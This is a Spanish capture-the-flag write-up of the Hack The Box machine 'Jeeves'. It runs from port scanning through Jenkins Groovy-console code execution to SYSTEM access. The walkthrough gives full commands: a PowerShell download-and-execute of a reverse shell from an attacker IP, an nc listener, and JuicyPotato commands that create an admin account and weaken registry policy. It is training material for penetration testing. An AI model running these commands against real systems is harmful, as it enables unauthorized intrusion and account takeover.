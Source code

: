 ```yaml
---
layout: post
title: HTB_Jeeves
date: 2023/07/10
---
```


# Jeeves {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Jeeves.

El replay del live se puede ver aqui

[![S4vitaar Jeeves maquina](https://img.youtube.com/vi/-o1c3s1QKUg/0.jpg)](https://www.youtube.com/watch?v=-o1c3s1QKUg)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.63
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.63
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.63 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,445,50000 10.10.10.63 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta? |
| ------ | -------- | ------------------ | ---------- |
| 80     | http     | Web, Fuzzing       |            |
| 135    | msrpc    |                    |            |
| 445    | smb      | Null session       |            |
| 50000  | http     | Web, Fuzzing       |            |

### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.63
smbclient -L 10.10.10.63 -N
smbmap -H 10.10.10.63 -u 'null'
```

Solo hemos podido comprobar que estamos frente a una maquina windows 10 pero poco mas.

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.63
```

Estamos en frente de un IIS

#### Analyzando la web con Firefox {-}

Vemos una pagina de busqueda typo Google.

Buscando en internet vemos una routa potencial que seria `/askjeeves/` pero no nos da en este caso

Intentamos ver lo que hay en el puerto **50000** y tenemos un 404. Si le ponemos el `/askjeeves/`, llegamos en 
un panel de administration de Jenkins.



## Vulnerability Assessment {-}

### Vulnerabilidad Jenkins {-}

Teniendo accesso al panel de administracion de Jenkins es un problema ademas si hay en el menu el boton Administrar Jenkins.
Aqui es el caso.

Pinchamos a Administrar Jenkins y despues le damos a Consola de scripts.

Aqui podemos crear Groovy script

```bash
command = "whoami"
println(command.execute().text)
```

Si ejecutamos el commando vemos en la respuesta `jeeves\kohsuke`. Vemos con esto que tenemos capacidad de RCE.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Jenkins Consola de scripts {-}

1. Descargamos Nishang y modificamos el fichero de reverse shell por tcp

    ```bash
    git clone https://github.com/samratashok/nishang
    cd nishang/Shells
    cp Invoke-PowerShellTcp.ps1 ../../PS.ps1
    cd ../..
    nano PS.ps1
    ```

    Modificamos el fichero PS.ps1 para añadir `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443` al final del fichero

1. Compartimos un servicio http con python

    ```bash
    python3 -m http.server 80
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Creamos el Groovy script

    ```bash
    command = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')"
    println(command.execute().text)
    ```

Ya hemos ganado accesso al systema. `whoami` -> **jeeves\kohsuke**. Ya podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el `SeImpersonatePrivilege` ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```

Si comprobamos con el commando `crackmapexec smb 10.10.10.63 -u 's4vitar' -p 's4vitar1234$!'` Vemos que el usuario no esta pwned.
Aqui tenemos que 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.63 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)
